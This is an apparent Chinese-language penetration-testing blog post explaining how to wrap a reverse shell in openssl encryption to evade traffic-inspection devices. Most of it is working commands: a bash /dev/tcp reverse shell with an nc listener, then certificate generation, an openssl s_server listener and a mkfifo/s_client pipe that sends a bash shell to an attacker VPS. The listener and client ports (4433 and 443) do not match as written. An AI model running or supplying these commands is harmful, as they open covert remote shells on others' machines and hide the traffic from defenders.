 ```yaml
---
title: "Encrypt Reverse Shell"
date: 2019-08-26T12:55:07+08:00
lastmod: 2019-08-26T12:55:07+08:00
draft: false
tags: ['reverse','shell']
categories: ['pentest']
comment: true
---
```

利用openssl加密你的shell
<!--more-->

在我们实际的渗透测试过程中，总是有各种各样的流量审查设备挡住我们通往system的道路，尤其是在反弹shell的时候，明文传输的shell总是容易断，那么本文介绍一种利用openssl反弹流量加密的shell来绕过流量审查设备。

# 常规bash反弹

vps执行 `nc -lvvp 4444`

目标主机执行 `bash -i >& /dev/tcp/172.16.1.1/4444 0>&1`

![20190826131727](https://y4er.com/img/uploads/20190826131727.png)

流量明文传输，很容易被拦截。

# openssl加密传输

第一步，在vps上生成SSL证书的公钥/私钥对
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
第二步，在VPS监听反弹shell
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 4433
```
第三步，在目标上用openssl加密反弹shell的流量
```bash
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect vps:443 > /tmp/s;rm /tmp/s
```

![20190826132310](https://y4er.com/img/uploads/20190826132310.png)

流量已经被加密。

# 参考链接

1. https://www.t00ls.net/articles-52477.html
2. https://www.freebuf.com/vuls/211847.html
3. https://www.cnblogs.com/heycomputer/articles/10697865.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**